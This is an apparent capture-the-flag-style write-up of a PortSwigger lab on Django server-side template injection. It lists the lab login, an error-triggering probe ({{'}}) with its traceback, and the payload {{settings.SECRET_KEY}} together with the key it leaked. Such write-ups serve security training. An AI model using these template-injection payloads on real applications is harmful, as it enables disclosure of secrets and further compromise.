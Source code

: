 # [Lab: Server-side template injection with information disclosure via user-supplied objects](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects)

## Lab

This lab is vulnerable to server-side template injection due to the way an object is being passed into the template. This vulnerability can be exploited to access sensitive data.

To solve the lab, steal and submit the framework's secret key.

You can log in to your own account using the following credentials:

```text
content-manager:C0nt3ntM4n4g3r
```

## Detect SSTI

Login to content manager account.

After login, there is an special function that only authorized account have, that is `edit template`.

make template error: `{{'}}`:

```text
Internal Server Error
Traceback (most recent call last): File "<string>", line 11, in <module> File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 191, in __init__ self.nodelist = self.compile_nodelist() File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 230, in compile_nodelist return parser.parse() File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 486, in parse raise self.error(token, e) django.template.exceptions.TemplateSyntaxError: Could not parse the remainder: ''' from '''
```

=> django

## Documents

django secret key:

```python
from django.conf import settings

secret_key = settings.SECRET_KEY
```

## Exploit

`{{settings.SECRET_KEY}}` => `koe2zfjqslv9cloh4dyg0p9l5ialaheg`

solved
